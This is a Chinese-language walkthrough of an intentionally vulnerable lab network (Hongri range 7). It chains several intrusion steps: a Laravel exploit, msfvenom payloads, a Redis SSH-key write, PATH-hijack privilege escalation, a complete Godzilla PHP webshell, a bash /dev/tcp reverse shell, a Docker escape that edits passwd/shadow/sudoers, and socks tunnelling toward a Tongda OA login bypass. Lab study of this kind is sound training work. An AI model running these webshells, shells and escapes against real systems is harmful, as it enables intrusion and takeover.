# 红日靶场七

## 外网

### 网卡配置

```
密码：
buntu1：web web2021
buntu2：ubuntu ubuntu
win7_1：bunny Bunny2021
win7_2：moretz Moretz2021
win2012：Whoami2021
管理员账户：strator Whoami2021
通达OA账户：admin：admin657260
网卡信息
ubuntu1：网卡1：192.168.52.10 外网：192.168.1.135
ubuntu2：网卡1：192.168.52.20 网卡2:192.168.93.10
win7——1：网卡1:192.168.52.30 网卡2:192.168.93.20
win7——2：网卡2:192.168.93.40
win2012：网卡2:192.168.93.30
攻击机kali：192.168.1.128
```


### 服务配置 

靶场中各个主机都运行着相应的服务并且没有自启功能，如果你关闭了靶机，再次启动时还需要在相应 的主机上启动靶机服务： 

```
DMZ区的 Ubuntu 需要启动nginx服务： 
redis-server /etc/redis.conf 开启redis服务
/usr/sbin/nginx -c /etc/nginx/nginx.conf  开启NGINX服务，可能提示端口被占用，证明用已经开启
iptables -F  清空防火墙规则

第二层网络的 Ubuntu需要启动docker容器： 
sudo service docker start 
sudo docker start 8e172820ac78 

第三层网络的 Windows 7 （PC 1）需要启动通达OA： 
C:\MYOA\bin\AutoConfig.exe  运行oa配置
```

1.NGINX


2.docker


3.通达


### 信息搜集

扫描端口


得到22 80 81 6379端口都是开启的

尝试访问

一直没访问到，后来检查发现另一台机子是这台机子的反向代理，要同时开启才能正常访问

这里发现本地NGINX目录没有自己的源码文件，所以猜测是反代


发现是一个laravel框架


根据工具检测，看到开了反向代理


这里在右下角看到了版本信息

### laravel-cve-2021-3129漏洞利用

我们在github上面直接搜索框架的漏洞，找到一个


然后这里我们用linux运行


 这里使用高版本会出错因为新的加密方式，我们使用哥斯拉2.92版本可以直接连接

```
全版本下载链接：
https://github.com/BeichenDream/Godzilla/releases
```


上线成功


这里发现只能执行一些简单的命令，没有过高的权限


通过命令发现，我们处于docker容器中

```
cgroup | grep docker 返回的信息是docker文本字样，依次可以判断我们处于docker容器中
例如：
$ cat /proc/1/cgroup | grep docker
11:name=systemd:/docker/6476c4a8d45867f5d844498f169226aa81f47675a5a564370c60e82de426176c
后面是容器的id
```

这里用kali反弹一个shell出来

```
命令格式为msfvenom -p [payload] LHOST=[IP地址] LPORT=[端口号] -f [格式] -o [文件名]

msfvenom -p windows/x64/meterpreter_reverse_tcp LHOST=192.168.30.133 LPORT=10000 -f exe -o 2.exe 
```

这里我们的就是

```
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=192.168.1.128 LPORT=6666 -f elf > hr7.elf
```


生成成功


通过godzilla上传


尝试msf上线，选择与生成的elf对应的payload


这里默认监听的是4444端口，这里我们也把他改成与elf对应的6666端口

尝试执行


执行失败，猜测是没有执行权限也无法直接赋予

再加上我们处于docker容器中，拿到的权限也是另一台机子的docker容器中的权限

无法从这里入手

我们从前面收集到的信息入手，这里想起来之前收集到的信息中的redis服务开启的6379端口

### redis未授权访问

#### 原理

```
Redis 默认情况下，会绑定在 0.0.0.0:6379，如果没有进行采用相关的策略，比如添加防火墙规则避免其他非信任来源 ip 访问等，这样将会将 Redis 服务暴露到公网上，如果在没有设置密码认证（一般为空）的情况下，会导致任意用户在可以访问目标服务器的情况下未授权访问 Redis 以及读取 Redis 的数据。攻击者在未授权访问 Redis 的情况下，利用 Redis 自身的提供的config 命令，可以进行写文件操作，攻击者可以成功将自己的ssh公钥写入目标服务器的 /root/.ssh 文件夹的authotrized_keys 文件中，进而可以使用对应私钥直接使用ssh服务登录目标服务器。
```

**产生条件**

```
（1）redis绑定在 0.0.0.0:6379，且没有进行添加防火墙规则避免其他非信任来源ip访问等相关安全策略，直接暴露在公网；
（2）没有设置密码认证（一般为空），可以免密码远程登录redis服务。 
```

**漏洞危害**

```
（1）攻击者无需认证访问到内部数据，可能导致敏感信息泄露，黑客也可以恶意执行flushall来清空所有数据；
（2）攻击者可通过EVAL执行lua代码，或通过数据备份功能往磁盘写入后门文件；
（3）最严重的情况，如果Redis以root身份运行，黑客可以给root账户写入SSH公钥文件，直接通过SSH登录受害服务器
```

#### 漏洞利用

我这里kali没有安装redis服务

先安装一下

```
sudo apt-get update 
sudo apt-get install redis 
redis-cli ping这里用命令检查一下服务是否运行
sudo systemctl restart redis.service 重启
```


这里我们尝试用命令连接

```
redis-cli -h 192.168.1.135
```


从登录的结果可以看出该redis服务对公网开放，且未启用认证


输入info直接回显信息

这里我们直接尝试本地生成密钥然后覆盖目标主机的密钥

**攻击者在未授权访问redis的情况下，利用redis自身提供的config命令，可以进行写文件的操作，攻击者可以成功将自己的ssh公钥写入目标服务器的/root/.ssh文件夹的authotrized_keys文件中，进而可以使用对于私钥直接使用ssh服务登录目标服务器**

```
ssh-keygen -t rsa  #生成公钥
(echo -e "\n\n"; cat /root/.ssh/id_rsa.pub; echo -e "\n\n") > 1.txt  #将公钥导入1.txt文件
cat 1.txt | redis-cli -h 192.168.36.128 -p 6379 -x set hello   #把1.txt文件内容写入目标主机的redis缓冲中
config set dir /root/.ssh                #设置redis的备份路径为/root/.ssh/
config set dbfilename authorized_keys    #设置保存文件名为authorized_keys
save                                     #将数据保存在目标服务器硬盘上
ssh root@192.168.36.128                       #连接    
```

1.生成公钥


2.将密码写进redis缓冲区


3.覆盖密钥（这里查看dbfilename看是否成功改名）


4.ssh连接


```
注意这里连接ssh的时候要处于root账户，并且是不需要密钥的enter进去就可以了
```


可以发现有两个网卡，目前看到还有一层网络

### getshell

这里我们找到他的私钥


将文件cp出来

然后用finalshell连接


成功连接


这里将之前生成的马子传上去继续使用


这里使用命令

```
nohup command & 表示在后台挂着一直运行
关的时候kill
```


这里msf成功上线，并且是root权限


拿到权限

## 第一层内网

### 添加路由

run get_local_subnets

 run autoroute -p

 run post/multi/manage/autoroute
 

### 二层内网信息搜集

前面拿到Ubuntu的权限

信息搜集发现，有第二个网卡，所以基本确认有内网


发现有192.168.52.20、192.168.52.30，接着对192.168.52.20下的docker下手，因为ubuntu  web1负责开启环境对外网开放，而getshell的机器是的ubuntu web2代理的web环境，并且ubuntu web2不出网

### linux环境变量提权

#### 原理解析

PATH是Linux和类Unix操作系统中的环境变量，它指定存储可执行程序的所有bin和sbin目录。当用户在终端上执行任何命令时，它会通过PATH变量来响应用户执行的命令，并向shell发送请求以搜索可执行文件。超级用户通常还具有/sbin和/usr/sbin条目，以便于系统管理命令的执行。

```
其原理就是利用suid的权限调用所属主用户即root用户执行c里的代码
```

使用echo命令显示当前PATH环境变量：

```
echo $PATH
```

如果你在PATH变量中看到**‘.’**，则意味着登录用户可以从当前目录执行二进制文件/脚本，这对于攻击者而言也是一个提权的绝好机会。

解析

```
其原理就是利用suid的权限调用所属主用户即root用户执行c里的代码

$PATH主要用于定义可执行程序的搜索目录。可执行程序包括 Linux系统命令和用户的应用程序

例如：当某个程序 调用 system("cat /flag") 时 它并不是以 system("/bin/cat /flag");这样来调用cat的 可以被利用

系统会按照$PATH环境变量中定义的顺序，从左到右搜索cat 如果$PATH = /tmp:/usr/local/bin:/usr/local/sbin 则会优先搜索 /tmp目录是否存在cat

$PATH环境变量劫持的原理：即自己构造一个同名的恶意程序，将要恶意程序所在的路径添加到PATH环境变量的前面，使其被优先加载。 而如果我们劫持的这个程序，是一个本身就具有SUID权限，以root身份执行的程序，那么 劫持成功的话，就是root执行我们的恶意程序，写入 /bin/bash即可提权
```

#### 案例

现在我们的当前目录是/home/lvxyz，我们将在当前目录下创建一个srcipt目录。然后cd到script目录中，编写一个简单的c程序来调用系统二进制文件的函数


代码 通过 setuid() 和 setgid() 更改uid、gid为0 即 root

然后调用system()函数 执行 ps命令 即系统二进制文件/bin/ps

```shell
root@lvxyz-ubuntu:~/script$ whereis ps
ps: /bin/ps /usr/share/man/man1/ps.1.gz
```

我们使用gcc命令编译demo.c文件并且赋予编译文件SUID权限

```shell
gcc demo.c -o demo
chmod u+s demo
ls -la demo
```


假设我们的ubuntu 是我们已经入侵成功的主机，ssh成功登录lvxyz普通用户了，现在要进行提权

我们利用find命令查找一下具有suid权限的文件

```shell
find / -perm -u=s -type f 2>/dev/null
```

发现了 /home/lvxyz/script/demo

我们运行一下这个文件，发现它会执行 ps命令


##### echo命令

因此 我们就往/tmp写入 一个同名文件，内容为 /bin/bash

```shell
cd /tmp
echo "/bin/bash" > ps
chmod 777 ps
echo $PATH
export PATH=/tmp:$PATH
cd /home/lvxyz/script
./demo
```


这里看到成功拿到root权限

##### cp命令

也可以通过 cp /bin/bash /tmp/ps，使得/tmp/ps文件等价于/bin/bash    与上面同理


成功提权root

#####  symlink命令

利用条件：suid权限的文件目录拥有所有权限

利用 symlink 符号链接命令


控制环境变量，最开头加上 .  从而控制环境变量  执行ps时优先找到 ./ps   即 /bin/bash 提权

其他命令同理，比如 c文件里写的 system("cat /etc/passwd")

我们只需重写一个 内容为/bin/sh的 cat，然后控制环境变量使得 某个suid权限的文件里在执行 cat命令时，优先找到我们重写的cat即可提权

关键在于：

- 找到具有SUID权限的文件，知道文件里调用了什么系统二进制文件
- 环境变量中有自己能控制的路径


### 继续提权

这里拿到的shell是第二台docker容器中的shell


这里可以看到我们当前的path环境变量

这里使用命令枚举出目标系统上所有的可执行文件

所以尝试提权（可能是 docker 环境的原因，内核提权失败），枚举具有SUID权限的所有二进制文件，发现 /home/jobs/shell

```
find / -perm -u=s -type f 2>/dev/null #\
```


这里看到/home/jobs/shell具有suid权限

这里我们用更高版本的哥斯拉连接，以便以一执行一些操作

一句话：（shell.php）

```
<?php

@session_start();			//创建或者重启一个会话
@set_time_limit(0);			//设置程序最长运行时间：永久
@error_reporting(0);			// 关闭错误报告
function encode($D,$K){			//通过密钥对 $D 进行加/解密
    for($i=0;$i<strlen($D);$i++) {
        $c = $K[$i+1&15];
        $D[$i] = $D[$i]^$c;
    }
    return $D;
}

$pass='pass';
$payloadName='payload';
$key='3c6e0b8a9c15224a';
if (isset($_POST[$pass])){
    //用base64 对 $_POST[$pass] 进行解码，然后通过密钥对返回数据进行加/解密
    $data=encode(base64_decode($_POST[$pass]),$key);
    if (isset($_SESSION[$payloadName])){
        $payload=encode($_SESSION[$payloadName],$key);
        if (strpos($payload,"getBasicsInfo")===false){
            $payload=encode($payload,$key);
        }
		eval($payload);
        echo substr(md5($pass.$key),0,16);
        echo base64_encode(encode(@run($data),$key));
        echo substr(md5($pass.$key),16);
    }else{
        if (strpos($data,"getBasicsInfo")!==false){
            $_SESSION[$payloadName]=encode($data,$key);		//将攻击荷载存储到SESSION
        }
    }
}

```

这里用之前版本的哥斯拉上传php


新版本连接成功

上面发现/home/jobs/shell具有suid权限

命令执行


发现是一个ps命令


进行一系列操作

这里由于是docker环境，需要先把shell反弹到ubuntu1再执行操作


```
webshell：bash -c 'exec bash -i >& /dev/tcp/192.168.52.10/1234 0>&1' 
在拿到webshell的终端上：执行将当前命令执行环境反弹到dev/tcp上面
```

这是一个通过webshell执行的命令，它使用bash创建一个反向shell，连接到指定的IP地址（192.168.52.10）和端口（1234）。

    bash -c: bash的-c选项允许你运行一个字符串作为命令。
    
    exec: exec用于替换当前进程的shell，而不启动新的shell。
    
    /dev/tcp/192.168.52.10/1234: /dev/tcp是一个特殊的文件，在Unix系统中，它可以用来建立网络连接。
    
    0>&1: 将标准输入（0）重定向到标准输出（1），这样就可以接收输入并发送到连接的另一端。


改$PATH来执行恶意程序，从而获得目标主机的 root 权限 shell


这里看到id等于0成功拿到root权限

### docker特权模式逃逸

```
判断是否为docker 环境
1、使用下面命令，查看是否存在 dockerrnv 文件
ls -alh /.dockerenv

2、查看系统进程的cgroup信息
cat /proc/1/cgroup
```


查看根目录下面发现有.dockerenv后缀文件，所以判断当前处于docker容器中


查看进程信息

首先查看一下磁盘文件和设备文件，发现有三个磁盘文件和很多个设备文件，将 /dev/sda1 挂载到自己创建的文件夹

```
fdisk -l     #查看磁盘文件
ls /dev      #查看设备文件
cd /
mkdir hello
mount /dev/sda1 /hello 把/dev/sda1挂载在/hello文件下，让linux可读
ls /hello
```


sda1是主分区，是Ubuntu宿主机的磁盘


这里ls dev下的sda1发现不可读，是一个文件

```
linux会把所有硬件设备当做文件处理
```


#### 提权

这里挂载成功之后，尝试看是否能够修改 /hello/etc/passwd 和 /hello /etc/shadow文件

发现可以修改

然后再另一台ubuntu中创建账号密码，然后将创建成功的一行复制过来

```
账户信息（etc/passwd
lidy:x:1001:1001:lidy,123,123,123,123:/home/lidy:/bin/bash >> /9/etc/passwd
账户权限（etc/shadow
lidy:\$6\$Iw/VWaL.\$5Q5Iqv.RbKvpqBp/x1MtBkk.AWNi7NXmXXPeg4g0yB2TGatTshwq2.KjcPNhmqx57uCTerwbo6b0s5fr2qOIa0:19808:0:99999:7::: >> /9/etc/shadow（因为echo出来有问题所以这里在每个$前面加了一个\反斜杠转义
密码这里设置的123
```





成功加入



ssh连接成功

连接成功之后尝试提权



这里可以看见lidy不在管理员组中

这里我们编辑/hello/etc/sudoers文件，将lidy用户添加进去



这里贴一个sudoers文件

```
# This file MusT be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.

#See the man page for details on how to write a sudoers file.

Defaults  env_reset
Defaults  mail_badpass
Defaults  secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root  ALL=(ALL:ALL) ALL
lidy  ALL=(ALL:ALL) ALL

# Members of the admin group may gain root privileges
%admin ALL=(ALL) ALL

# Allow members of group sudo to execute any command
%sudo  ALL=(ALL:ALL) ALL

# See sudoers(5)for more information on "#include" directives:

#includedir /etc/sudoers.d
```



添加成功之后 sudo -i提权成功

### 上线Ubuntu web2

```
msfvenom -p linux/x64/meterpreter/bind_tcp LPORT=7777 -f elf -o ubuntu2.elf

use exploit/multi/handler 
set payload linux/x64/meterpreter/bind_tcp
set rhosts 192.168.52.20
set lport 7777
run
```



### 横向移动

配置代理 添加路由

我们已经有了两个sessions，但kali与52段的主机无法进行通信，所以我们需要在web1增加一个通往192.168.52.0的路由

```
route add 目标网段 子网掩码 sessions号
```

 路由转发只能将msf带进内网，而kali想要将其他攻击程序带进内网还需要搭建socks代理。

在kali上执行

```bash
./ew_for_linux64 -s rcsocks -l 1080 -e 1234
```

将 ew_for_linux64上传给web1



 在web1执行

```bash
nohup ./ew_for_linux64 -s rssocks -d 192.168.1.128 -e 1234
```



 然后配置proxychains，将socks5服务器指向127.0.0.1:1080，之后便可以使用proxychains将我们攻击机上的程序代理进第二层网络（192.168.52.1/24）了

    vim /etc/proxychains4.conf   
    socks5 127.0.0.1 1080
 发现30主机，进行端口扫描

```bash
proxychains4 nmap -Pn -sT -sV -F -O 192.168.52.30
```



 发现8080端口有nginx的http服务

这里我们在火狐上添加插件，然后设置代理，就可以正常访问

```
socks5 127.0.0.1 8080
```

在攻击机上设置号代理进行访问

发现时通达OA v11.3，该版本存在任意用户登录、文件包含和文件上传等多个漏洞



#### 通达OA web

**1、任意用户登录**

1）登录处[抓包](https://so.csdn.net/so/search?q=抓包&spm=1001.2101.3001.7020)



```
2）修改再发包
需修改以下三个地方：
/logincheck.php      /logincheck_code.php
删除cookie在post包中添加UID=1
```



3）用获取的SESSID访问/general/

这里是

```
http://192.168.52.30:8080/inc/expired.php?from=3&t1=-1131&t2=
```

